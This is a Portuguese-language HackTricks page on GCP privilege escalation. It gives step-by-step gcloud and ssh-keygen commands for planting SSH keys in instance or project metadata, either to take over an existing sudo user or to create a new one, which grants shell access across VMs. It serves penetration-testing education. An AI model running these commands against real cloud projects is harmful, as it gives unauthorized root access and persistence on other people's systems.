 # GCP - Adicionar Metadados SSH Personalizados

## GCP - Adicionar Metadados SSH Personalizados

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Suporte ao HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}

### Modificando os metadados <a href="#modifying-the-metadata" id="modifying-the-metadata"></a>

A modificação de metadados em uma instância pode levar a **riscos de segurança significativos se um atacante obtiver as permissões necessárias**.

#### **Incorporação de Chaves SSH em Metadados Personalizados**

No GCP, **sistemas Linux** frequentemente executam scripts do [Python Linux Guest Environment for Google Compute Engine](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts). Um componente crítico disso é o [daemon de contas](https://github.com/GoogleCloudPlatform/compute-image-packages/tree/master/packages/python-google-compute-engine#accounts), que é projetado para **verificar regularmente** o endpoint de metadados da instância em busca de **atualizações nas chaves públicas SSH autorizadas**.

Portanto, se um atacante puder modificar metadados personalizados, ele poderá fazer com que o daemon encontre uma nova chave pública, que será processada e **integrada ao sistema local**. A chave será adicionada ao arquivo `~/.ssh/authorized_keys` de um **usuário existente ou potencialmente criando um novo usuário com privilégios `sudo`**, dependendo do formato da chave. E o atacante poderá comprometer o host.

#### **Adicionar chave SSH a um usuário privilegiado existente**

1. **Examinar Chaves SSH Existentes na Instância:**
*   Execute o comando para descrever a instância e seus metadados para localizar chaves SSH existentes. A seção relevante na saída estará sob `metadata`, especificamente a chave `ssh-keys`.

```bash
gcloud compute instances describe [INSTANCE] --zone [ZONE]
```
* Preste atenção ao formato das chaves SSH: o nome de usuário precede a chave, separado por dois pontos.
2. **Preparar um Arquivo de Texto para Metadados da Chave SSH:**
* Salve os detalhes dos nomes de usuários e suas respectivas chaves SSH em um arquivo de texto chamado `meta.txt`. Isso é essencial para preservar as chaves existentes enquanto adiciona novas.
3. **Gerar uma Nova Chave SSH para o Usuário Alvo (`alice` neste exemplo):**
*   Use o comando `ssh-keygen` para gerar uma nova chave SSH, garantindo que o campo de comentário (`-C`) corresponda ao nome de usuário alvo.

```bash
ssh-keygen -t rsa -C "alice" -f ./key -P "" && cat ./key.pub
```
* Adicione a nova chave pública ao `meta.txt`, imitando o formato encontrado nos metadados da instância.
4. **Atualizar os Metadados da Chave SSH da Instância:**
*   Aplique os metadados atualizados da chave SSH à instância usando o comando `gcloud compute instances add-metadata`.

```bash
gcloud compute instances add-metadata [INSTANCE] --metadata-from-file ssh-keys=meta.txt
```
5. **Acessar a Instância Usando a Nova Chave SSH:**
*   Conecte-se à instância com SSH usando a nova chave, acessando o shell no contexto do usuário alvo (`alice` neste exemplo).

```bash
ssh -i ./key alice@localhost
sudo id
```

#### **Criar um novo usuário privilegiado e adicionar uma chave SSH**

Se nenhum usuário interessante for encontrado, é possível criar um novo que receberá privilégios `sudo`:
```bash
# define the new account username
NEWUSER="definitelynotahacker"

# create a key
ssh-keygen -t rsa -C "$NEWUSER" -f ./key -P ""

# create the input meta file
NEWKEY="$(cat ./key.pub)"
echo "$NEWUSER:$NEWKEY" > ./meta.txt

# update the instance metadata
gcloud compute instances add-metadata [INSTANCE_NAME] --metadata-from-file ssh-keys=meta.txt

# ssh to the new account
ssh -i ./key "$NEWUSER"@localhost
```
#### Chaves SSH em nível de projeto <a href="#sshing-around" id="sshing-around"></a>

É possível ampliar o alcance do acesso SSH a várias Máquinas Virtuais (VMs) em um ambiente de nuvem **aplicando chaves SSH em nível de projeto**. Essa abordagem permite o acesso SSH a qualquer instância dentro do projeto que não tenha bloqueado explicitamente as chaves SSH em nível de projeto. Aqui está um guia resumido:

1. **Aplicar Chaves SSH em Nível de Projeto:**
*   Use o comando `gcloud compute project-info add-metadata` para adicionar chaves SSH do `meta.txt` aos metadados do projeto. Essa ação garante que as chaves SSH sejam reconhecidas em todas as VMs do projeto, a menos que uma VM tenha a opção "Bloquear chaves SSH em nível de projeto" habilitada.

```bash
gcloud compute project-info add-metadata --metadata-from-file ssh-keys=meta.txt
```
2. **SSH em Instâncias Usando Chaves em Nível de Projeto:**
* Com as chaves SSH em nível de projeto em vigor, você pode SSH em qualquer instância dentro do projeto. Instâncias que não bloqueiam chaves em nível de projeto aceitarão a chave SSH, concedendo acesso.
* Um método direto para SSH em uma instância é usar o comando `gcloud compute ssh [INSTANCE]`. Este comando usa seu nome de usuário atual e as chaves SSH definidas em nível de projeto para tentar o acesso.

## Referências

* [https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/](https://about.gitlab.com/blog/2020/02/12/plundering-gcp-escalating-privileges-in-google-cloud-platform/)

{% hint style="success" %}
Aprenda e pratique Hacking AWS:<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Aprenda e pratique Hacking GCP: <img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Confira os [**planos de assinatura**](https://github.com/sponsors/carlospolop)!
* **Junte-se ao** 💬 [**grupo do Discord**](https://discord.gg/hRep4RUj7f) ou ao [**grupo do telegram**](https://t.me/peass) ou **siga**-nos no **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Compartilhe truques de hacking enviando PRs para o** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repositórios do github.

</details>
{% endhint %}
